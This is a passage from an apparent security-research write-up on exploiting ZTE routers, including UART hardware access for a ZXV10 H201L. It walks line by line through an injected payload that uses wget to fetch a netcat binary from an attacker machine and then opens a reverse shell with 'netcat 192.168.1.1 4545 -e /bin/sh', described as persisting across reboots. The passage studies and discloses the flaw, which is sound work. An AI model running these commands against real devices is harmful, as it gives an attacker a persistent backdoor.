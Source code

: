 2. `cp /bin/ls /tmp/netcat;`
 - Copies the `/bin/ls` binary to `/tmp/netcat`. This is done to ensure the file `/tmp/netcat` exists and is `executable`, eventually it will be overwritten.

3. `wget http://192.168.1.1:9090/netcat -O /tmp/a;`
 - Downloads the MIPS netcat from http://192.168.1.1:9090/ (attacker machine) and saves it as `/tmp/a`.

4. `cat /tmp/a > /tmp/netcat;`
 - Overwrites `/tmp/netcat` with the contents of the downloaded file. The previously copied `/bin/ls` content is replaced by the downloaded binary.

5. `rm /tmp/a;`
 - Removes the temporary downloaded file `/tmp/a`.

6. `/tmp/netcat 192.168.1.1 4545 -e /bin/sh`
 - Connects to `192.168.1.1` (attacker machine) on port 4545. The `-e /bin/sh` part tells it to execute `/bin/sh` and pipe its input/output over the connection.
 - This essentially gives us a remote shell (a backdoor).

If this payload is injected a connection will be made back to the defined server IP on-boot and every time the DDNS check is triggered. 

# Round two: ZXV10 H201L

Exploit and backdoor code: [https://github.com/TasosY2K/zte-router-0day-rce/tree/main/exploit/ZXV10-H201L](https://github.com/TasosY2K/zte-router-0day-rce/tree/main/exploit/ZXV10-H201L)

## Getting UART

### Reconnaissance

This time i was not able to find an `FCC ID` for this device as it was probably never in the US, however there is alot of documentation related to this device online. I went ahead and took it apart, as i did not find much info specifically related to reverse engineering it online.

![Router](./images/router.jpeg)

And once again it is very easy to spot the rudimentary UART pins. We also get a better image of the chips and ports available on the device should we need them for the reverse engineering process.

![Router UART](./images/router_uart.jpeg)

This time the vendor made the process even easier for us by having the pins already soldered to the UART slots and by also having them correctly labeled.

![Router Connected to Arduino](./images/router_connected.jpeg)

We connect the appropriate pins mapped to the Arduino like so:

```
Arduino => Router

VCC - 3V3 (not needed)
GND - GND
RX  - RX
TX  - TX
```
